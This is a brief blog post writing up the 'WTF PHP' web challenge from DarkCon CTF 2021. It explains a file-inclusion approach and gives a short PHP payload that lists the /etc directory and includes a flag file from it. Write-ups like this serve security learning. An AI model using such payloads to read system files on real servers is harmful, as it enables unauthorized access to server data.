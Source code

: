```yaml
---
layout: post
title:  "DarkCon CTF writeup (2021)"
date:   2021-02-21 15:11:51 +0530
categories: CTF web
---
```

This post has writeup for one web challenge: `WTF PHP`

This challenge has the local file inclusion (LFI) vulnerability. The solution is as follows:
1. Use opendir() and readdir() to list the contents of /etc directory.
2. Get the name of the txt file containing the flag (f1@g.txt).
3. Use the include directive to read the file. The code is as follows

{% highlight ruby %}
<?php
	include '/etc/f1@g.txt';	
	$filelist = array();
	if ($handle = opendir("/etc")) {
    	while ($entry = readdir($handle)) {
          	$filelist[] = $entry;
    	}
	print_r($filelist);
    closedir($handle);
	}
	 
?>
{% endhighlight %}
